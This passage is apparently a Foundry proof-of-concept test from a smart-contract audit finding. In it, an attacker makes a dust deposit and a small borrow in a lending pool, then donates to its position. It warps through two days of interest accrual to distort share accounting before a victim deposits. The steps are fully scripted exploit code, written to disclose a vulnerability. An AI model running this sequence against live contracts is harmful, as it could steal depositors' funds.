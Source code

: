```solidity
        * =============================
         */

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        borrowAsset.approve(address(pool), amountOfAsset/5);
        pool.deposit(vicPoolId, 1, attacker);
        vm.stopPrank();

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        data = abi.encodePacked(vicPoolId, uint256(1));
        action = Action({ op: Operation.Borrow, data: data });
        positionManager.process(
            attPosition,
            action
        );
        borrowAsset.transfer(attPosition, amountOfAsset/50);
        vm.stopPrank();

        logPool(vicPoolId);
        for(uint i = 1; i <= 7200; i++){
            vm.warp(block.timestamp + 12);
            pool.accrue(vicPoolId);
        }
        console2.log("One day of constant accrual");
        logPool(vicPoolId);

        for(uint i = 1; i <= 7200; i++){
            vm.warp(block.timestamp + 12);
            pool.accrue(vicPoolId);
        }
        console2.log("Two days of constant accrual");
        logPool(vicPoolId);

        (,,,,,,,,, uint256 tDAssets,) = pool.poolDataFor(vicPoolId);
        vm.startPrank(victim);
        borrowAsset.approve(address(pool), type(uint256).max);
        collateralAsset.approve(address(pool), type(uint256).max);
        pool.deposit(vicPoolId, tDAssets * 2 - 1, victim);
        vm.stopPrank();

        logPool(vicPoolId);
    }

    function logPool(uint256 poolId) view public {
        (,,,,,,,uint256 tBAssets, uint256 tBShares, uint256 tDAssets, uint256 tDShares) = pool.poolDataFor(poolId);
        console2.log("Total Borrow Assets: ", tBAssets);
        console2.log("Total Borrow Shares: ", tBShares);
        console2.log("Total Deposit Assets: ", tDAssets);
        console2.log("Total Deposit Shares: ", tDShares);
        console2.log("================");
    } 
```
